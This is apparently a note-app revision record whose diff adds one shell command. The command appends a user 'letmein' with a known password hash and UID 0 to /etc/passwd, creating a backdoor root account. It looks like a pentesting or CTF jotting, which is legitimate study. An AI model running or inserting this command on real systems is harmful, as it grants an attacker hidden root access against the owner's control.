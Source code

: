 id: 4c14d3a601094083b8ed5ec1f7d73acd
parent_id: a2bf6cc30ff74823b095805cb335c6f5
item_type: 1
item_id: 276ce18ce9aa476ba46c02225fa120e1
item_updated_time: 1652251809100
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" pass123\"],[1,\"\\\n\\\necho 'letmein:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd\"]],\"start1\":39,\"start2\":39,\"length1\":8,\"length2\":97}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-11T06:55:16.644Z
created_time: 2022-05-11T06:55:16.644Z
type_: 13